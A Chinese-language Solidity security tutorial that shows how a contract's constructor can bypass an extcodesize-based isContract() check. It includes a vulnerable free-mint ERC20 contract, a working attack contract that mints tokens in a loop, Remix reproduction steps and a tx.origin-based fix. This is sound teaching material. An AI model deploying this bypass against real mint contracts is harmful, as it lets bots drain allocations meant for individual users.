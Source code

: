 ```yaml
---
title: S08. 绕过合约检查
tags:
  - solidity
  - security
  - constructor
---
```


# WTF Solidity 合约安全: S08. 绕过合约长度检查

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍绕过合约长度检查，并介绍预防的方法。

## 绕过合约检查

很多 freemint 的项目为了限制科学家（程序员）会用到 `isContract()` 方法，希望将调用者 `msg.sender` 限制为外部账户（EOA），而非合约。这个函数利用 `extcodesize` 获取该地址所存储的 `bytecode` 长度（runtime），若大于0，则判断为合约，否则就是EOA（用户）。

```solidity
// 利用 extcodesize 检查是否为合约
function isContract(address account) public view returns (bool) {
    // extcodesize > 0 的地址一定是合约地址
    // 但是合约在构造函数时候 extcodesize 为0
    uint size;
    assembly {
        size := extcodesize(account)
    }
    return size > 0;
}
```

这里有一个漏洞，就是在合约在被创建的时候，`runtime bytecode` 还没有被存储到地址上，因此 `bytecode` 长度为0。也就是说，如果我们将逻辑写在合约的构造函数 `constructor` 中的话，就可以绕过 `isContract()` 检查。

![image1](./img/S08-1.png)

## 漏洞例子

下面我们来看一个例子：`ContractCheck`合约是一个 freemint ERC20 合约，铸造函数 `mint()` 中使用了 `isContract()` 函数来阻止合约地址的调用，防止科学家批量铸造。每次调用 `mint()` 可以铸造 100 枚代币。

```solidity
// 用extcodesize检查是否为合约地址
contract ContractCheck is ERC20 {
    // 构造函数：初始化代币名称和代号
    constructor() ERC20("", "") {}
    
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint函数，只有非合约地址能调用（有漏洞）
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们写一个攻击合约，在 `constructor` 中多次调用 `ContractCheck` 合约中的 `mint()` 函数，批量铸造 `1000` 枚代币：

```solidity
// 利用构造函数的特点攻击
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // 当合约正在被创建时，extcodesize (代码长度) 为 0，因此不会被 isContract() 检测出。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // 合约创建好以后，extcodesize > 0，isContract() 可以检测
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

如果我们之前讲的是正确的话，在构造函数调用 `mint()` 可以绕过 `isContract()` 的检查成功铸造代币，那么函数将成功部署，并且状态变量 `isContract` 会在构造函数赋值 `false`。而在合约部署之后，`runtime bytecode` 已经被存储在合约地址上了，`extcodesize > 0`， `isContract()` 能够成功阻止铸造，调用 `mint()` 函数将失败。

## `Remix` 复现

1. 部署 `ContractCheck` 合约。

2. 部署 `NotContract` 合约，参数为 `ContractCheck` 合约地址。

3. 调用 `ContractCheck` 合约的 `balanceOf` 查看 `NotContract` 合约的代币余额为 `1000`，攻击成功。

4. 调用`NotContract` 合约的 `mint()` 函数，由于此时合约已经部署完成，调用 `mint()` 函数将失败。

## 预防办法

你可以使用 `(tx.origin == msg.sender)` 来检测调用者是否为合约。如果调用者为 EOA，那么`tx.origin`和`msg.sender`相等；如果它们俩不相等，调用者为合约。在[eip-3074](https://eips.ethereum.org/EIPS/eip-3074)中，这样检查合约的方式，会失效。

```solidity
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## 总结

这一讲，我们介绍了合约长度检查可以被绕过的漏洞，并介绍预防的方法。如果一个地址的 `extcodesize > 0`，则该地址一定为合约；但如果 `extcodesize = 0`，该地址既可能为 `EOA`，也可能为正在创建状态的合约。
